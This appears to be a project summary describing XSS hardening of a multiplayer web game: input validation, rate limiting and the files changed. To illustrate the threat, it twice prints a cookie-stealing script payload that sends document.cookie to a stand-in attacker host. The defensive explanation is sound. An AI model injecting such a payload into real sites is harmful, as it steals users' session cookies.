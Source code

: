 ## 🎓 Key Security Features

### **Defense in Depth:**
1. **Client-side:** Sanitize before sending
2. **Network:** Rate limit requests
3. **Server-side:** Validate everything (never trust client)
4. **Rendering:** Use textContent (no HTML parsing)

### **Input Validation:**
- Usernames: 3-20 chars, alphanumeric only
- Messages: 1-500 chars, no HTML/scripts
- Room names: 1-50 chars, alphanumeric
- Numbers: Min/max bounds, NaN protection

### **Rate Limiting:**
- Chat: 5 messages per second max
- Sliding window: 1000ms
- User feedback: Alert on limit
- Server protection: Rejects excessive requests

---

## 📝 Files Created/Modified

### **Created:**
1. `world_generation/security_utils.js` (410 lines) - **NEW**
2. `SECURITY_IMPLEMENTATION_COMPLETE.md` (350 lines) - **NEW**

### **Modified:**
1. `world_generation/multiplayer_ui.js` - Added rate limiting, replaced innerHTML
2. `multiplayer_server.js` - Added server-side sanitization
3. `test_camera_character_integration.html` - Added security script

**Total Security Code:** ~600 lines  
**Vulnerabilities Fixed:** 8+ critical XSS points

---

## 🔮 Why This Matters

### **Without Security:**
- Attacker sends: `<script>document.location='evil.com?cookie='+document.cookie</script>`
- **Result:** All players' cookies stolen 💀

### **With Security:**
- Attacker sends: `<script>document.location='evil.com?cookie='+document.cookie</script>`
- **Result:** Displayed as plain text, no execution ✅

---